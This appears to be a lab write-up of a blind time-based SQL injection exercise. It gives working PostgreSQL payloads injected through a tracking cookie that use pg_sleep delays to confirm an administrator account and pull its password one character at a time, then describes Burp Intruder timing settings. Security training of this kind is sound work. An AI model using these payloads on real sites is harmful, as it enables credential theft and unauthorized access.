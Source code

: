 Title: Blind SQL injection with time delays and information retrieval
Level: Practitioner
Desc:  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user. 

payload: `TrackingId=QHvH9SEulpOJRGZ7' || pg_sleep(10)--`
result: we have 10 sec sleep

payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
result: we have sleep

payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
result: we have sleep - administrator exists

payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN (username='xadministrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
result: no sleep

TO GET PASSWORD char by char:
payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN SUBSTR(password,1,1)='3' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users where username='administrator'--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible,
you need to configure the Intruder attack to issue requests in a single thread. To do this, click the Resource pool tab to open the Resource pool side panel and add the attack to a resource pool
with the Maximum concurrent requests set to 1
![image](https://github.com/user-attachments/assets/05db3847-bb9d-4dad-9444-7a36fd66dd2a)


Review the attack results to find the value of the character at the first position. You should see a column in the results called Response received. This will generally contain a small number,
representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing
for that row is the value of the character at the first position. 

















